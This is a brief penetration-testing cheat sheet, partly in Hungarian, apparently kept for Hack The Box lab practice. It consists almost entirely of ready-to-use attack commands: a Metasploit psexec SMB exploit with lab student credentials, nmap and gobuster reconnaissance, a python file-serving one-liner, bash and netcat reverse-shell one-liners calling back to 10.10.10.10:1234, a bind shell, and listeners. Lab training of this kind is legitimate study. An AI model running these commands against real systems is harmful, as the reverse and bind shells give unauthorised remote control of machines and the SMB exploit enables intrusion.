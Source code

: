 
MSF SMB:
```shell
msfconsole
search exploit/windows/smb/psexec
use 0
set Rhosts 10.10.10.10
set LHOST 10.10.10.10
set LHOST 10.10.10.10
set SMBUser htb-student
set SMBPass HTB_@cademy_stdnt!
exploit
```
Alap parancsok:
nmap:
```shell
nmap -sCV 10.10.10.10
```
Wget python
```shell
python3 -m http.server 8000
```
Dir gobuster
```shell
gobuster dir -u http://link.link -w /usr/share/seclists/Discovery/Web-Content/common.txt -o dev_linkvortex_htb_gobuster
```
Subdomain gobuster
```shell
gobuster vhost -u http://link.link -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain -r -o linkvortex_subdomain_gobuster
```
reverseshell:
```shell
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```shell
nc -lvnp 1234
```
bindshell:
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash i 2>&1|nc -lvp 1234 >/tmp/f
```

```shell
nc 10.10.10.10 1234
```
Find:
```shell
find / -name "valami.txt" 2>/dev/null
```